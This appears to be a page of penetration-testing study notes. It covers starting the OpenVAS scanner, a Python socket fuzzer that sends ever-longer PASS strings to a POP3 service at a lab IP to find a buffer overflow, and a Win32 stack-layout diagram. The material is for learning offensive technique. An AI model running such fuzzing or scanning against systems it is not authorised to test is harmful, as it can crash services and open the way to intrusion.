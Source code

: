 Just run the following commands to get it up and running.

```sh
openvasmd --user=admin --new-password=NEW_PASSWORD
service redis-server start
service greenbone-security-assistant start
service openvas-scanner start
service openvas-manager start
firefox https://127.0.0.1:9392
```

Add new target -> add new scan using target -> run

# Buffer Overflows

## Fuzzing
Fuzz base on buffer length and perhaps different characters, check for crashes, and observe memory stack in debugger.

```py
#!/usr/bin/env python

import socket
string = 'A'

for i in range(100, 10000, 200):
    print 'Fuzzing PASS with {} bytes'.format(i)
    s = socket.socket()
    s.connect(('192.168.1.23', 110))
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS {}\r\n'.format(string * i))
    s.send('QUIT\r\n')
    s.close()
```

# Win32 Buffer Overflows

Stack overflow simulation

```
ESP -> 1000 .... \
       1001 .... |- # Current function
       1002 .... |
       1003 .... /
EBP -> 1003 100A # Previous EBP further down
       1004 3AFD # Return address to previous calling function
       1005 ....
       1006 ....
```
